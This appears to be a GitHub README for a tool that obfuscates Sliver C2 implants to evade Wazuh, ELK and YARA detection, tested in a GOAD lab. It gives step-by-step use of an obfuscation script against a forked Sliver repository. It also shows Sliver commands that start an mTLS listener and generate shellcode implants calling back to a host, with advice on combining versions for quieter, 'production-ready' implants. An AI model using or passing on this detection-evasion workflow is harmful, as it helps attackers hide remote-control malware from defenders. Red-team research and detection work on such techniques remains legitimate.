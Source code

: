 # Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfsucation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK rules—out, Wazuh YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Fork [Sliver](https://github.com/BishopFox/sliver) to your own repository.  
2. Clone the repo on your server.  
3. Place this [Tape](https://github.com/Oni-kuki/Tape) repo in front of your forked [Sliver](https://github.com/BishopFox/sliver) repo (on your server, of course)
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)

> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).  
> I have a better solution if you want to use the latest version because Donut-based payloads in 1.6 are not flagged as much yet.   

```taping.sh
./taping.sh version 1.5 FOLDER/
./taping.sh version 1.6 FOLDER/
```

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  
> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.

## Some Recomendations
> [!NOTE]
> Build the 1.5 version   
> Next to this build the 1.6 version  
> Add the sliver-server binary of 1.6 to the 1.5 server, like external builder and use it for every implant generation  

### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  
